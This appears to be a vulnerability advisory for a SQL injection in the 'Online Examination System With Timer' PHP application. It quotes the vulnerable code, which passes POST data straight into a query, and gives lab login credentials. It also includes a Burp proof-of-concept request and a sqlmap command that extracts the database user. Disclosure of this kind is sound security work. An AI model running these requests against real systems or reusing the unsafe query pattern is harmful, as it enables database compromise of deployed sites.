 ## Online Examination System With Timer

## SQL Injection on `/query/selExamAttemptExe.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/index.php
glenn@gmail.com
glenn
```

### Affected Page:

```
/query/selExamAttemptExe.php
```

The potential injection point is located in `selExamAttemptExe.php`. This file directly utilizes the `$thisId`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# /query/selExamAttemptExe.php
extract($_POST);
$selExamAttmpt = $conn->query("SELECT * FROM exam_attempt WHERE exmne_id='$exmneId' AND exam_id='$thisId' ");
if($selExamAttmpt->rowCount() > 0)
{
	$res = array("res" => "alreadyExam", "msg" => $thisId);
}
else
{
	$res = array("res" => "takeNow");
}
echo json_encode($res);
```

### Proof of Concept:

**Burp Request:**

```
POST /query/selExamAttemptExe.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 42
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/home.php?page=exam&id=13
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close

thisId=1
```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513164421313](./screenshot/image-20240513164421313.png)
